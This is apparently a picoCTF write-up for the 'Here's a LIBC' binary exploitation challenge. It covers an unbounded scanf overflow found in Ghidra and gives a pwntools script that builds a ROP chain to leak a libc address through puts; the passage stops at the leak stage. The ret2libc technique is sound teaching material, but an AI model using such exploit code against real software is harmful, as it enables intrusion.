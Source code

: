 # Here's a LIBC
## Write-up of the PicoCTF Binary Exploitation Challenge

<img	src="Challenge Description.png"
		alt="Challenge Description"
/>

## Setup

3 files are provided to us for the challenge and the address
to the server is also provided.

Lets download the files and try to run the binary

<img	src="Setup0.png"
		alt="Challenge Description"
/>

We get a crash
This occurs because our linker is a newer version than the libc provided

<img	src="Setup1.png"
		alt="Challenge Description"
/>

We can fix this using pwninit which will automatically take care of this

<img	src="Setup2.png"
		alt="Challenge Description"
/>

This fixed the problem

<img	src="Setup3.png"
		alt="Challenge Description"
/>


## Analysis

Lets open the binary in Ghidra and take a look at whats going on

<img	src="Analysis0.png"
		alt="Challenge Description"
/>

There is no input being taken in the main function but we see another function
Lets check it out

<img	src="Analysis1.png"
		alt="Challenge Description"
/>

This looks like what we are looking for  
I have retyped some variables so its easier to understand  
As we can see there is no bound checking on the scanf input  
We can easily overflow the buffer since scanf will take an input until it encounters a newline

<img	src="Analysis2.png"
		alt="Challenge Description"
/>

Sure enough, we get a segmentation fault and the program crashes  

Lets check the protections on the binaries

<img	src="Analysis3.png"
		alt="Challenge Description"
/>

The stack is not executable so we can't execute shellcode pushed onto it  
PIE is off for vuln meaning addresses won't change for the binary on each execution  
This means we can easily leak an address from libc and use it to return to libc


## Exploitation

Lets open the binary in GDB and find exactly where we overwrite RIP

<img	src="Exploitation0.png"
		alt="Challenge Description"
/>

<img	src="Exploitation1.png"
		alt="Challenge Description"
/>

Now we need to find some ROP Gadgets to leak the address of a function in libc  
We can use pwntools ROPgadget for this  
  
We will use the puts() function to print out an address in libc so we also need the address of puts@plt
We can leak the address of any function inside libc. I have chosen setbuf()

To print the address of setbuf() in libc we need to pass the address of setbuf@got to puts()  
For this we will need to find a ROP Gadget that will allow us to modify RDI

<img	src="Exploitation2.png"
		alt="Challenge Description"
/>

<img	src="Exploitation3.png"
		alt="Challenge Description"
/>

<img	src="Exploitation4.png"
		alt="Challenge Description"
/>

Now that we have found the relevant addresses we can leak the address of setbuf() inside libc

```py
import pwnlib.util.packing as pack
from pwn import log, process, remote

p = process("./vuln")  # Local binary

padding = b"A" * 136
pop_rdi = 0x400913  # ROP Gadget for popping rdi
setbuf_at_got = 0x601028  # Address of setbuf() in GOT
puts_at_plt = 0x400540  # Address of puts() in PLT
main = 0x400771  # Address of main for returning safely after leaking setbuf() address in libc

# ? Craft the payload to leak address of setbuf in libc
payload = padding  # Pad the stack until the stored RIP
payload += pack.p64(pop_rdi)  # Set the address of setbuf() in GOT as the first argument of puts()
payload += pack.p64(setbuf_at_got)  # This will be the first argument of puts()
payload += pack.p64(puts_at_plt)  # Call puts()
payload += pack.p64(main)  # Return to main() so the program doesnt crash

# ? Send the payload
p.sendline(payload)
p.recvline()  # Discard data we dont need
p.recvline()  # Discard data we dont need
leak = pack.u64(p.recvline().strip().ljust(8, b"\x00"))  # Format the address of setbuf() properly
log.info(f"Leaked setbuf Address -> {hex(leak)}")
```

<img	src="Exploitation5.png"
		alt="Challenge Description"
/>
